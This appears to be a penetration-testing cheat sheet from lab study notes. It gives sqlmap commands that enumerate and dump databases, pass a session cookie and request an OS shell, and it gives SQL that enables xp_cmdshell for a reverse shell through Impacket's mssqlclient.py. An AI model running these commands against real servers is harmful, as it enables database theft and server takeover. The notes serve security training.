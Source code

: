 ## SQLmap
SQLmap is an open-source tool used in penetration testing to detect and exploit SQL  injection flaws. SQLmap automates the process of detecting and exploiting SQL  injection. SQL Injection attacks can take control of databases that utilize SQL.

If we needed authentication to access to the web we will need to add the cookies value to the command. For doing that we can use Cookie-Editor, explained in [[Useful Resources]].

### EXAMPLE 1

We can use *sqlmap* specifying the target url:
- *Parameters*:
	- `-u`: Specifies the target URL to be tested for SQL injection vulnerabilities. In this case, the target URL is http://192.168.1.102/administrator
	    
| Option                    | Description                                                                                                                       |
|---------------------------|-----------------------------------------------------------------------------------------------------------------------------------|
| `-u`                       | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://192.168.1.102/administrator`.          |
| `--batch`                  | Runs sqlmap in batch mode, performing operations automatically without prompting for user input.                                  |
| `--dbs`                    | Instructs sqlmap to enumerate the available databases on the database server.                                                     |
| `--tables`                 | Instructs sqlmap to enumerate the available tables in the selected database.                                                      |
| `--level (1-5, default 1)` | Defines the scope of vectors and boundaries used for injection. Higher levels involve more obscure techniques with lower success. **Levels:** 1 (default): Basic tests, minimal impact. 2: Extends tests to more techniques, might cause some disruption. 3: More advanced techniques, higher chance of impacting the target. 4-5: Highly specific and risky techniques, use with caution. |
| `--risk (1-3, default 1)`  | Controls the types of exploit vectors based on their potential risk. **Levels:** 1 (default): Low-risk techniques, unlikely to cause harm. 2: Includes techniques with moderate risk of data loss or denial-of-service. 3: Attempts all techniques, including disruptive or data-altering ones (use responsibly). |


```bash
sqlmap -u http://192.168.1.102/administrator --forms --dbs --batch
```

After using this command the available databases will be printed, then you can enumerate  the tables stored in each database:

```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> --tables --batch
```

Once you have introduced this command, the available columns in the database will be printed. Now to find the content of the columns you need to use the following command:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> --columns --batch
```

Finally, you can print the columns information using:
```bash
sqlmap -u http://192.168.1.102/administrator --forms -D <database_name> -T <Columns_name> -C <parameter1>,<parameter2><parameter3> --dump --batch	
```

### EXAMPLE 2	
For a most exhaustive analysis, we can save the vulnerable request with _save item_ in Burp Suite. The field in which the insertion will be made in this example is **id**, previously investigated in Burp Suite.

| Option               | Description                                                                                                            |
| -------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| `-r pc`              | Specifies the file that contains the saved HTTP request, named "pc" in this case. It will be used as input for sqlmap. |
| `-p id`              | Indicates the name of the URL or body parameter in the HTTP request to be tested for SQL injection. Example: `id`.     |
| `--dbs`              | Instructs sqlmap to enumerate the available databases on the database server.                                          |
| `--tables`           | Instructs sqlmap to enumerate the available tables in the selected database.                                           |
| `-D SQLite_masterdb` | Specifies the name of the database where operations will be performed. Example: `SQLite_masterdb`.                     |
| `-T accounts`        | Specifies the name of the table on which operations will be performed. Example: `accounts`.                            |
| `--columns`          | Instructs sqlmap to enumerate the available columns in the specified table.                                            |
| `--batch`            | Runs sqlmap in batch mode, performing the operations automatically without prompting for user input.                   |
| `--threads 5`        | Specifies the number of threads sqlmap will use simultaneously. Example: 5 threads.                                    |
| `--dump`             | Extracts the data from the specified table and displays it as output.                                                  |

- Find databases:
```bash
sqlmap -r pc -p id  --dbs	
```
- Find tables in a specific database:	
```bash
sqlmap -r pc -p id -D <database_name> --tables  
```
- Find columns in a specific table:
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --columns 
```
- Dump columns content
```bash
sqlmap -r pc -p id -D <database_name> -T <table_name> --dump --columns "<column1_name>,<column2_name>,<column3_name>"
```

### Exemple 3
| Option            | Description                                                                                                      |
|-------------------|------------------------------------------------------------------------------------------------------------------|
| `-u`               | Specifies the target URL to be tested for SQL injection vulnerabilities. Example: `http://10.129.95.174/dashboard.php?search=any+query` |
| `--cookie`        | Sets the cookie value for the HTTP request. Cookies maintain session information. Example: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1` |
| `--os-shell`      | Attempts to obtain an operating system shell on the vulnerable server if SQL injection is successful. This provides direct interaction with the operating system. |

```bash
sqlmap -u 'http://10.129.95.174/dashboard.php?search=any+query' --  
cookie="PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1" --os-shell
```
# mssqlclient.py 
mssqlclient.py is a script from the Impacket class collection. When mssqlclient.py is executed, a connection is established with the specified SQL Server and it allows interaction through a command-line interface.

- `windows-auth`: This flag is specified to use Windows Authentication.
- `ARCHETYPE/sql_svc`: Server ID (previously found).
````bash
python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth
````

In case `xp_cmdshell` is not enabled (which is the command we will use for a reverse shell), perform the following steps:
````bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; -- Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

````

